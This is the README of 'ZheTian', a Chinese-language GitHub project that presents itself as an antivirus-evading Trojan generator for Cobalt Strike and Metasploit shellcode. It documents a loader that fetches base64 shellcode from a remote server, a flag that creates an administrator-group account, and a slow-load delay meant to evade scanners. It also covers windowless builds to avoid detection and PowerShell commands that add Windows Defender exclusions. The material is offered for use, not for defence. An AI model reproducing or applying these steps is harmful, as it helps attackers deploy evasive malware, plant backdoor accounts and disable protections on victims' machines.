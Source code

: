 ![logo](images/logo.png)
# ::ZheTian Powerful Anti Anti-Virus Trojan horse generator / 强大的免杀木马生成器

## 全新V2上线，Bypass All.


### V2版本支持Cobalt Strike、MSF原生Shellcode，无需任何处理即可直接使用，指令：

> -o string：选中payload，向同级目录生成一个可执行程序（无需go语言环境）
>
> -m int：选择要生成的系统架构，参数选择32和64，默认选中了64
> 
系统依旧采用了“慢加载”方式，运行约十五秒后才开始执行上线操作

![v2](images/v2.png)

####  本次更新采用闭源方式，V1版本继续开源。相比较移除了原本的ShellCode loader功能，只保留了生成模块。此版本进行功能优化之后可能成为最终解决方案，但是免杀之路不会停止，新ZheTian将与[Hearts K](http://heartsk.com/)合并，成为其一个子模块，欢迎继续体验新项目！感谢各位师傅一路陪伴。 —— 遮天项目

----

### V1：
![v1](images/v1.png)
### 参数：
> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
> -o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
> -n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
> -c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

#### 运行示例：

#### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

##### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

##### 图示操作过程

先生成64位shellcode

![payload](images/payload.jpg)

然后根据需要的命令进行修改
![code](images/code.png)

下面执行示例：
![run](images/run.png)

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>

## 扩展：Windows defender

由于ZheTian的defender免杀效果不稳定，在此推荐一种方式，执行下面命令会分别向defender添加白名单：目录、进程、类型文件

#### 需以管理员权限运行

> powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
>
> powershell -Command Add-MpPreference -ExclusionProcess "java.exe"
>
> powershell -Command Add-MpPreference -ExclusionExtension ".java"
>

## 有问题加群反馈！！Issues 一概不处理！
 
<img src="images/group.png" width="350">
